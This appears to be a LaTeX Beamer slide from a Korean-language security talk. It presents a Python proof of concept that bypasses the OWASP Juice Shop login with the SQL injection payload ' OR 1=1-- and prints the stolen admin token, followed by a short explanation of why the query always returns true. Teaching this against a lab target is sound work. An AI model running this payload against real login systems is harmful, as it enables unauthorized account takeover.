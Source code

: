 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\hlt}[1]{\textcolor{accent}{\textbf{#1}}}
\begin{document}
\begin{frame}[fragile]{대표 PoC 코드 — SQLi Login Bypass}
\begin{lstlisting}[language=Python]
import requests

TARGET = "http://juice-shop:3000"
payload = {"email": "' OR 1=1--", "password": "anything"}

resp = requests.post(f"{TARGET}/rest/user/login", json=payload)
if resp.status_code == 200:
    token = resp.json()["authentication"]["token"]
    print(f"[+] Admin token: {token[:30]}...")
\end{lstlisting}

\vspace{0.3em}
\begin{columns}[T]
\begin{column}{0.48\textwidth}
\begin{block}{원리}
\begin{itemize}
    \item Juice Shop의 SQLite 쿼리:\\
          \texttt{SELECT * FROM Users WHERE email='\hlt{' OR 1=1--}'}
    \item \texttt{' OR 1=1--} $\rightarrow$ 조건 항상 참
    \item 첫 번째 사용자 = admin 반환
\end{itemize}
\end{block}
\end{column}
\begin{column}{0.48\textwidth}
\end{column}
\end{columns}
\end{frame}
\end{document}
